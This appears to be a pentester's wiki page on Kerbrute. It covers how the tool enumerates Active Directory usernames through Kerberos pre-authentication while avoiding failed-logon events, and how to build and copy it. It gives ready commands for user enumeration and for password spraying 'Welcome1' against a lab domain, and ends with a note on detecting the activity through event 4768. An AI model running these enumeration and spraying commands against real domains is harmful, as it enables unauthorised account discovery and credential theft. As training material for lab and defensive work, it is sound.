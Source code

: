 ```yaml
---
title: Kerbrute
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - enumeration
  - active directory
---
```

# Kerbrute

 It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts.
 This method does not generate Windows event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625), or a logon failure which is often monitored for.

**How it works?**

Basically, the tool sends TGT requests to the domain controller without Kerberos Pre-Authentication to perform username enumeration. If the KDC responds with the error `PRINCIPAL UNKNOWN`, the username is invalid. Whenever the KDC prompts for Kerberos Pre-Authentication, this signals that the username exists, and the tool will mark it as valid.

*This method of username enumeration does not cause logon failures and will not lock out accounts.*


```
# Requirements: having Go installed
sudo git clone https://github.com/ropnop/kerbrute.git

# Typing make help will show us the compiling options available.
cd kerbrute
make help

# type make all and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).
sudo make all

# The newly created dist directory will contain our compiled binaries.
ls -la dist
```


```
#############
# FOR LINUX
#############

# Add the tool to our PATH to make it accessible from anywhere in the host. For that we make sure first of the PATH
echo $PATH

# and then we move the binary to a path, for instance
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute



#############
# FOR WINDOWS
#############
# Copy the file to the windows pivoting machine
scp kerbrute_windows_amd64.exe username@$ip:~/

```


## Basic commands

```
# User enumeration 
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
# -d: domain
# --dc: domain controller
# -o: output file

# Password spraying attack with kerbrute
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1


```

**However**, using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768).  Defenders can tune their SIEM tools to look for an influx of this event ID.

